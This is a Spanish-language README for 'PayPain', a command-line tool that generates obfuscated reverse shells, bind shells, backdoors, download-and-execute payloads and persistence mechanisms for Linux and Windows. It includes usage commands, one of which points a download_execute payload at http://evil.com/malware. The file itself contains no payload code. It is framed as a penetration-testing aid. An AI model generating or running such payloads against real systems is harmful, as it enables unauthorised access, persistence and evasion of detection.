




# PayPain

## Generador de Payloads Ofuscados para Pruebas de Seguridad



## Descripción

PayPain es una herramienta de generación de payloads diseñada para profesionales de seguridad informática. Facilita la creación de diversos tipos de cargas útiles para pruebas de penetración en sistemas Linux y Windows.

## ⚠️ Advertencia Legal

Esta herramienta está diseñada EXCLUSIVAMENTE para fines educativos y pruebas de seguridad autorizadas. El uso indebido de esta herramienta para acceder a sistemas sin autorización es ilegal y puede resultar en consecuencias legales graves. El autor no se hace responsable del mal uso de esta herramienta.

## Características

- Generación de múltiples tipos de payloads (reverse shells, bind shells, backdoors, etc.)
- Soporte para sistemas Linux y Windows
- Ofuscación automática para evadir detecciones básicas
- Opciones de persistencia
- Interfaz de línea de comandos intuitiva

## Instalación

```bash
# Clonar el repositorio
git clone https://github.com/Pr1or95/paypain.git
cd paypain

# Instalar dependencias
pip install -r requirements.txt
```

## Uso

### Estructura básica del comando

```bash
python Paypain.py -i <IP> -p <PUERTO> -t <TIPO_PAYLOAD> -s <SISTEMA_OPERATIVO> -o <ARCHIVO_SALIDA>
```

### Ver ayuda

```bash
python Paypain.py --help
```

### Listar payloads disponibles

```bash
# Para Linux
python Paypain.py -l -s linux

# Para Windows
python Paypain.py -l -s windows
```

### Describir un payload específico

```bash
python Paypain.py -d reverse_shell -s linux
```

### Ejemplos de uso

#### Generar un reverse shell para Linux

```bash
python Paypain.py -i 192.168.1.100 -p 4444 -t reverse_shell -s linux -o payload.sh
```

#### Generar un backdoor PowerShell para Windows

```bash
python Paypain.py -i 192.168.1.100 -p 4444 -t powershell_backdoor -s windows -o payload.ps1
```

#### Generar un payload para descargar y ejecutar un archivo

```bash
python Paypain.py -i 192.168.1.100 -p 4444 -t download_execute -s linux -o payload.sh -u http://evil.com/malware
```

## Payloads Disponibles

### Linux
- **Reverse_shell**: shell inverso que se conecta a una máquina atacante
- **Bind_shell**: shell que se vincula a un puerto en la máquina objetivo y espera conexiones
- **Download_execute**: Descarga y ejecuta un archivo de una URL remota
- **Python_backdoor**: backdoor en Python que establece una conexión con la máquina atacante
- **PHP_backdoor**: backdoor en PHP que establece una conexión con la máquina atacante
- **Bash_backdoor**: backdoor en Bash que intenta conectarse periódicamente a la máquina atacante
- **Cron_persistence**: establece una tarea cron para ejecutar periódicamente un shell inverso

### Windows
- **Reverse_shell**: shell inverso en PowerShell que se conecta a una máquina atacante
- **Bind_shell**: shell PowerShell que se vincula a un puerto y espera conexiones
- **Download_execute**: descarga y ejecuta un script PowerShell de una URL remota
- **Powershell_backdoor**: backdoor en PowerShell que intenta conectarse periódicamente a la máquina atacante
- **VBS_backdoor**: backdoor en VBScript que ejecuta un payload PowerShell oculto
- **Registry_persistence**: establece persistencia mediante el registro de Windows para ejecutar un payload al inicio de sesión
- **WMI_persistence**: establece persistencia mediante tareas programadas de Windows

## Capturas de Pantalla





## Contribución

Las contribuciones son bienvenidas. Por favor, sigue estos pasos:

1. Haz un fork del repositorio
2. Crea una nueva rama (`git checkout -b feature/nueva-funcionalidad`)
3. Haz commit de tus cambios (`git commit -am 'Añadir nueva funcionalidad'`)
4. Sube los cambios a tu rama (`git push origin feature/nueva-funcionalidad`)
5. Abre un Pull Request
